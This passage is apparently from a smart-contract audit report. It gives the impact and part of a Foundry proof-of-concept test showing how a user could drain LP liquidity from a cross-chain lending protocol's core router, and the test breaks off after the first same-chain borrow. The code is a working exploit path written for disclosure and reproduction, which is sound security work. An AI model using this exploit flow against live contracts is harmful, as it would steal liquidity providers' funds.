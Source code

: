 1. Malicious user gains the additional `tokenB2` from the large same-chain borrow in attack path step 2.
2. LPs cannot withdraw their supplied `tokenB2` liquidity.

### PoC

Place the following into `test/TestBorrowingCrossChain.t.sol` and run 
> forge test --mt testUserCanStealCoreRouterLiquidity

```javascript
    address LP = makeAddr("LP");
    address user = makeAddr("user");
    address tokenA1;
    address lTokenA1;
    address tokenA2;
    address lTokenA2;
    address tokenB1;
    address lTokenB1;
    address tokenB2;
    address lTokenB2;
    function testUserCanStealCoreRouterLiquidity() public {
        uint256 liquidity = 10e18;
        uint256 amountLargeBorrow = 7e18;
        uint256 amountSmallBorrow = 1;
        uint256 amountToSupply = 10e18;
        LendStorage.Borrow[] memory userCrossChainCollaterals;
        tokenA1 = supportedTokensA[0];
        lTokenA1 = lendStorageA.underlyingTolToken(tokenA1);
        tokenA2 = supportedTokensA[1];
        lTokenA2 = lendStorageA.underlyingTolToken(tokenA2);
        tokenB2 = lendStorageA.underlyingToDestUnderlying(tokenA2, CHAIN_B_ID);
        lTokenB2 = lendStorageB.underlyingTolToken(tokenB2);
        tokenB1 = supportedTokensB[0];
        lTokenB1 = lendStorageB.underlyingTolToken(tokenB1);

        // 0. Setup
        // Deal ether for LayerZero fees
        vm.deal(address(routerA), 1 ether);
        vm.deal(address(routerB), 1 ether);
        // LPs supply some token liquidity for user to borrow
        ERC20Mock(tokenB2).mint(LP, liquidity);
        vm.startPrank(LP);
        IERC20(tokenB2).approve(address(coreRouterB), liquidity);
        coreRouterB.supply(liquidity, tokenB2);
        vm.stopPrank();
        // Mint user some tokens to use as collateral
        ERC20Mock(tokenA1).mint(user, amountToSupply);
        ERC20Mock(tokenB1).mint(user, amountToSupply);
        uint256 userTokenA1BalanceBefore = IERC20(tokenA1).balanceOf(user);
        uint256 userTokenB1BalanceBefore = IERC20(tokenB1).balanceOf(user);

        // 1. User supplies collateral, tokenA1 to chainA and tokenB1 to chainB
        vm.startPrank(user);
        IERC20(tokenA1).approve(address(coreRouterA), amountToSupply);
        coreRouterA.supply(amountToSupply, tokenA1);
        IERC20(tokenB1).approve(address(coreRouterB), amountToSupply);
        coreRouterB.supply(amountToSupply, tokenB1);
        vm.stopPrank();

        // 2. User borrows tokens (tokenB2) in chainB using chainB collateral (tokenB1) (same chain borrow)
        vm.prank(user);
        coreRouterB.borrow(amountLargeBorrow, tokenB2);
        assertEq(IERC20(tokenB2).balanceOf(user), amountLargeBorrow);
```
